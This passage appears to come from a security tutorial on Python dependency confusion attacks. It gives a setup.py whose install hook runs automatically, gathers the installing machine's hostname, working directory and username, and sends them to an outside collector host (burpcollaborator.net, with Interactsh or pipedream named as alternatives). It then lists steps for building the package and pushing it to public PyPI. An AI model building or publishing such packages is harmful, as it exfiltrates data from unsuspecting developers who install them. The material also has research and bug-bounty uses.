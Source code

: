 * Create a file named **setup.py** using the following code as shown below.

```python
#source:- https://github.com/007divyachawla/python-dependency-confusion-attack/blob/main/setup.py
from setuptools import setup
from setuptools.command.install import install
import requests
import socket
import getpass
import os

class CustomInstall(install):
    def run(self):
        install.run(self)
        hostname=socket.gethostname()
        cwd = os.getcwd()
        username = getpass.getuser()
        ploads = {'hostname':hostname,'cwd':cwd,'username':username}
        requests.get("https://burpcollaborator.net",params = ploads) #replace burpcollaborator.net with Interactsh or pipedream


setup(name='dependency1337', #package name
      version='1.0.0',
      description='test',
      author='test',
      license='MIT',
      zip_safe=False,
      cmdclass={'install': CustomInstall})
```
<p align="center">
  <img src="/images/dependency/npm-18.png">
</p>

* Create a [PyPi Account](https://pypi.org/account/register/).

* In order to push the packages to Public Pypi registry, we need **(sdist, bdist_wheel, twine)** these packages to be installed in our system

```bash
pip3 install twine sdist bdist_wheel
```

* Use the following command to build the **setup.py** as shown below.

```bash
python3 setup.py sdist bdist_wheel
```

